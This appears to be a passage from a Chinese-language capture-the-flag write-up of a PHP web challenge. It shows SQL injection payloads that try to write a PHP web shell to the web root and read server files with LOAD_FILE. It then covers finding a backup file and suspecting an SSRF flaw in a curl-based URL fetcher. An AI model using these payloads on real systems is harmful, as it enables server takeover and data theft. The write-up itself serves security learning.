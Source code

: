 ~~~
0 and 1=2 union/**/select '<? system($_GET['c']); ?>' into outfile '/var/www/html/db.php'(无权限)
0 and 1=2 union/**/select 2,LOAD_FILE('/var/www/html/view.php'),4,5 from users(这里的字段数要和前面select的字段数一样,这里只能是4个,不能多不能少)
```
(login.php什么的,都看了一次)
但好像没有什么帮助...好吧,只能看wp

!!!!!!!!!!!!!!!!!

好吧,忽略了这种情况下应该扫描目录...获取更多信息

得到user.php.bak和flag.php两个文件(多扫描几次...)

user.php.bak代码如下:
```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

看了user.php.bak,估计是读取ssrf漏洞,读取flag.php
~~~
